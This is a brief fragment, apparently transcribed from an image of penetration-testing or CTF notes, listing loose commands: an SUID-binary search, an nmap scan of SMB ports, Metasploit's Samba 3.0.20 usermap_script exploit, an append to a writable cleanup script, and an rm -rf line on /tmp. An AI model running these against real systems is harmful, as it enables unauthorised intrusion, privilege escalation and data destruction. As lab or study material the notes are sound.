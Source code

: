 find / -perm -u=s -type f 2>/dev/null
search Samba 3.0.20
use exploit/multi/samba/usermap_script
nmap -T4 -A -p 139,445 
139/tcp netbios-ssn
echo "Running cleanup script: nothing to delete" >> /var/ftp/scripts/remove
rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp $LINE" 
